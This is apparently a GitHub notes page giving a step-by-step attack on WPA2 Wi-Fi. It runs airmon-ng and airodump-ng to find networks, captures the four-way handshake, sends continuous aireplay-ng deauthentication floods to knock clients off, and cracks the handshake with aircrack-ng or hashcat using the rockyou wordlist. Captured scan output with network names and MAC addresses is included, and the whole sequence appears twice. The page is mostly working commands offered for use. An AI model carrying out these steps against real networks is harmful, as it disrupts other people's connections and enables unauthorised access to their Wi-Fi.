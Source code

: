 # Step 1:

Kill interfering processes and put adapter in monitor mode  
$sudo airmon-ng check kill  
$sudo airmon-ng start wlan0
 
# Step 2:

Discovery  
$sudo airodump-ng wlan0
 
```
┌──(kali㉿kali)-[~]  
└─$ sudo airodump-ng wlan0      


 CH 10 ][ Elapsed: 3 mins ][ 2023-01-10 20:26 ][ paused output                                                                                                
                                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                              
                                                                                                                                                              
 98:E7:F4:9F:D5:9B  -75        0        0    0  11   65   WPA2 CCMP   PSK  DIRECT-9A-HP OfficeJet 4650                                                        
 1E:9D:72:BD:09:05  -83        3        0    0   6  260   WPA2 CCMP   PSK  <length:  0>                                                                       
 F4:30:B9:00:9F:0E  -76        2        0    0   6   65   WPA2 CCMP   PSK  DIRECT-0D-HP ENVY 7640 series                                                      
 40:E1:E4:3E:F1:4D  -78        6        0    0   6  720   WPA2 CCMP   PSK  Bismuth                                                                            
 06:1E:A3:6F:71:56   -1        0        0    0   6   -1                    <length:  0>                                                                       
 5A:96:30:95:92:CE  -80        8        0    0   6  260   WPA2 CCMP   MGT  <length:  0>                                                                       
 1E:9D:72:BD:09:07  -81        4        0    0   6  260   WPA3 CCMP   SAE  <length:  0>                                                                       
 1E:9D:72:BD:09:01  -82        3        0    0   6  260   WPA2 CCMP   MGT  <length:  0>                                                                       
 5A:96:30:95:92:CA  -81        8        0    0   6  260   WPA2 CCMP   PSK  <length:  0>                                                                       
             
Take note of BSSID and channel

$sudo airodump-ng wlan0mon -d <BSSID> -c <channel>

 CH  6 ][ Elapsed: 2 mins ][ 2023-01-10 21:06 ][ paused output                                                                                                
                                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                          
                                                                                                                                                              
 40:E1:E4:3E:F1:4D  -75   0       12       33    0   6  720   WPA2 CCMP   PSK  Bismuth                                                                        
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                                            
                                                                                                                                                              
 40:E1:E4:3E:F1:4D  26:8E:F8:70:D6:20   -1    2e- 0      0       26        
Capture WPA2 4-way handshake
$sudo airodump-ng -w <path> -c <channel> -d <bssid> wlan0

Deauth all client continuously 
--deauth <number of deauth packets to send>
-a <AP MAC>
-c (optional) <CLIENT MAC>
$sudo aireplay-ng --deauth 0 -a <bssid> -c <client mac> wlan0

Until - [ WPA handshake: 74:DA:88:BC:B9:43    

Crack handshake capture with aircrack
$sudo aircrack-ng <path to .cap> -w /usr/share/wordlists/rockyou.txt

OR 

Convert .cap to correct extention ([https://hashcat.net/cap2hashcat/index.pl](https://hashcat.net/cap2hashcat/index.pl))
Send file to windows
Cmd  
$cd S:\hashcat\hashcat-6.2.6  
$hashcat.exe -a 0 -D 2 <path to file .hc22000> C:\Users\barry\OneDrive\Desktop\rockyou.txt


```
 
CH 10 ][ Elapsed: 3 mins ][ 2023-01-10 20:26 ][ paused output   BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID   98:E7:F4:9F:D5:9B -75 0 0 0 11 65 WPA2 CCMP PSK DIRECT-9A-HP OfficeJet 4650  
1E:9D:72:BD:09:05 -83 3 0 0 6 260 WPA2 CCMP PSK <length: 0>  
F4:30:B9:00:9F:0E -76 2 0 0 6 65 WPA2 CCMP PSK DIRECT-0D-HP ENVY 7640 series  
==40:E1:E4:3E:F1:4D== -78 6 0 0 ==6== 720 WPA2 CCMP PSK Bismuth  
06:1E:A3:6F:71:56 -1 0 0 0 6 -1 <length: 0>  
5A:96:30:95:92:CE -80 8 0 0 6 260 WPA2 CCMP MGT <length: 0>  
1E:9D:72:BD:09:07 -81 4 0 0 6 260 WPA3 CCMP SAE <length: 0>  
1E:9D:72:BD:09:01 -82 3 0 0 6 260 WPA2 CCMP MGT <length: 0>  
5A:96:30:95:92:CA -81 8 0 0 6 260 WPA2 CCMP PSK <length: 0>   Take note of BSSID and channel
 
# Step 3 (optional):

- This step is useful if you want to see clients connected

$sudo airodump-ng wlan0mon -d <BSSID> -c <channel>
 
CH 6 ][ Elapsed: 2 mins ][ 2023-01-10 21:06 ][ paused output   BSSID PWR RXQ Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID   40:E1:E4:3E:F1:4D -75 0 12 33 0 6 720 WPA2 CCMP PSK Bismuth   BSSID STATION PWR Rate Lost Frames Notes Probes   40:E1:E4:3E:F1:4D 26:8E:F8:70:D6:20 -1 2e- 0 0 26  

# Step 4:

- Capture WPA2 4-way handshake

$sudo airodump-ng -w <path> -c <channel> -d <bssid> wlan0
      

# Step 5:

- Deauth all client continuously
- --deauth <number of deauth packets to send>
- -a <AP MAC>
- -c (optional) <CLIENT MAC>

$sudo aireplay-ng --deauth 0 -a <bssid> -c <client mac> wlan0
 
Until - [ WPA handshake: 74:DA:88:BC:B9:43
 
# Step 6:

- Crack handshake capture with aircrack

$sudo aircrack-ng <path to .cap> -w /usr/share/wordlists/rockyou.txt
 
OR
 
- Convert .cap to correct extention ([https://hashcat.net/cap2hashcat/index.pl](https://hashcat.net/cap2hashcat/index.pl))
- Send file to windows

Cmd  
$cd S:\hashcat\hashcat-6.2.6  
$hashcat.exe -a 0 -D 2 <path to file .hc22000> C:\Users\barry\OneDrive\Desktop\rockyou.txt